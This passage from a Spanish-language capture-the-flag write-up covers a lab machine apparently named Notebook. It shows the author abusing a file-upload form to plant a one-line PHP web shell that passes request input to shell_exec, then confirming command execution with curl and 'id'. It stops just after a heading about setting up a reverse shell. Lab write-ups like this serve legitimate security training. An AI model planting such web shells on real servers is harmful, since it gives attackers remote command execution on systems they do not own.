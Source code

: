 ![Upload Form](/secciones/posts/imagenes/notebook/form1.webp)

Primero intenté cargar un archivo de texto sin formato, `test.txt`, y vemos que cambia el nombre del archivo, pero no la extensión. Sin embargo, el enlace "Ver" está roto porque devuelve 404.

Debido a que la nota decía que se estaban ejecutando archivos PHP, subiré un webshell PHP:

```bash
nano cmd.php
```

```php
<?php 
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Aparece con un nombre de archivo hexadecimal largo, pero con la misma extensión. Si agrego `?cmd=id` hasta el final, muestra que tengo ejecución:

![Command Execution](/secciones/posts/imagenes/notebook/exec1.webp)

### Establecimiento de reverse shell

Usaremos curl para activar la web shell:

```bash
curl --data-urlencode 'cmd=id' -G -s http://10.10.10.230/a1ba6293840f8a8fb4d5dda74c98c90a.php
```

**Resultado:**
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
